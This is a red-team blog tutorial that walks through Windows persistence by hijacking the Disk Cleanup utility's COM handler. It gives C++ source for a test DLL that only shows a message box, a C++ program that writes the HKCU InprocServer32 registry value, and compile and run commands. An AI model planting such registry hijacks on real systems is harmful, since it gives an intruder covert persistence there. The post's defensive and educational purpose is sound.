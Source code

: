 ```yaml
---
title:  "Malware development: persistence - part 19. Disk Cleanup Utility. Simple C++ example."
date:   2022-11-16 03:00:00 +0300
header:
  teaser: "/assets/images/80/2022-11-18_07-59.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/80/2022-11-18_07-59.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Disk Cleanup Utility.     

### disk cleanup

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

![pers](/assets/images/80/2022-11-18_08-06.png){:class="img-responsive"}    

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](/assets/images/80/2022-11-18_04-42.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-44.png){:class="img-responsive"}    

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](/assets/images/80/2022-11-18_04-51.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-54.png){:class="img-responsive"}    

> For demo purposes, here I show the example of the registry from HKEY_CLASSES_ROOT because HKEY_CURRENT_USER is empty

This suggests, that we can use [COM DLL hijacking](/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

### practical example

First of all, as usually, create "evil" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, for simplicity, it's just `meow-meow` messagbox.    

And then create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}\\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

### demo

Let's go to compile our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](/assets/images/80/2022-11-18_05-14.png){:class="img-responsive"}    

And persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/80/2022-11-18_05-17.png){:class="img-responsive"}    

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](/assets/images/80/2022-11-18_07-56.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_07-57.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=     

But for persistence. requires the user to run Disk Cleanup Utility. Here, I can use [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence. Adding Disk Cleanup to run during the start-up may not be the best idea, because it has a GUI. I tried using the command line arguments of this program:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

But failed :(. It worked correctly:       

![pers](/assets/images/80/2022-11-18_08-45.png){:class="img-responsive"}    

I think I will return to this issue in one of the future posts.       

Also, according to microsoft documentation, we can add new entries to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](/tutorial/2022/05/02/malware-pers-3.html)       
[source code in github](https://github.com/cocomelonc/2022-11-16-malware-pers-19)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
